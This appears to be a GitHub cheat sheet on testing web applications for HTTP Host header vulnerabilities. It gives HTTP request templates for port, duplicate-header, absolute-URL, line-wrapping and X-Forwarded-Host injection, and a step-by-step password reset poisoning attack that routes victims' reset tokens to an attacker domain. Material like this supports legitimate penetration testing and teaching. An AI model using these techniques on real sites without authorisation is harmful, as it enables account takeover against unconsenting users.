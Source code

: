
# Content 
- [How to test for vulnerabilities using the HTTP Host header](#how-to-test-for-vulnerabilities-using-the-http-host-header)
  - [if it still route you for the target endpoint](#1-supply-an-arbitrary-host-header-if-it-still-route-you-for-the-target-endpoint--start-searching-for-functionality-that-use-the-supplied-host-header-you-injected-that-can-be-compromised)
  - [if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header)](#2-supply-an-arbitrary-host-header-if-it-rediects-you-to-another-host-or-can-not-find-the-host-invalid-host-header-or-blocked-invalid-host-header-)
- [Techniques To Use](#techniques-to-use)
  - [injecting a payload via the port](#injecting-a-payload-via-the-port)
  - [advantage of a less-secure subdomain that you have already compromised](#advantage-of-a-less-secure-subdomain-that-you-have-already-compromised)
  - [Inject duplicate Host headers](#inject-duplicate-host-headers)
  - [Supply an absolute URL](#supply-an-absolute-url)
  - [Add line wrapping](#add-line-wrapping)
  - [Inject host override headers](#inject-host-override-headers)

## How to test for vulnerabilities using the HTTP Host header
#### 1) Supply an arbitrary Host header if it still route you for the target endpoint => start searching for functionality that use the supplied host header you injected that can be compromised 
- Password reset poisoning 
- Web cache poisoning
- Exploiting classic server-side vulnerabilities  (Ex:sql,xxe)
- Routing-based SSRF => check if the host header send dns request for your server 
- Bypassing authentication
#### 2) Supply an arbitrary Host header if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header) : 
- Connection state attacks
```
Connection state attacks: 
For performance reasons, many websites reuse connections for multiple request/response cycles with the same client.
Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the Host header, are identical for all HTTP/1.1 requests sent over the same connection.
This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater. This can lead to a number of potential issues.

EXAMPLE : you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 
```
- Try to use [below techniques](#techniques-to-use) 
  
## Techniques To Use

#### injecting a payload via the port
```http
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
#### advantage of a less-secure subdomain that you have already compromised
```http
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
#### Inject duplicate Host headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```
#### Supply an absolute URL
```http
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Add line wrapping
```http
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject host override headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```
- X-Forwarded-Host
- X-Host
- X-Forwarded-Server
- X-HTTP-Host-Override
- Forwarded

## Exploit the HTTP Host header
### password reset poisoning attack
 If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:
- get victim's email address or username, as required, and submits a password reset request on their behalf.
- Modify the Host header so that it points to a domain that they control. (evil-user.net)
- The victim receives a genuine password reset email directly from the website. contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server: **https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j**
- If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.
- The attacker can now supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.

In a real attack, the attacker may seek to increase the probability of the victim clicking the link by first warming them up with a fake breach notification 
for example: Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. 

**Note:** that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply. 
 
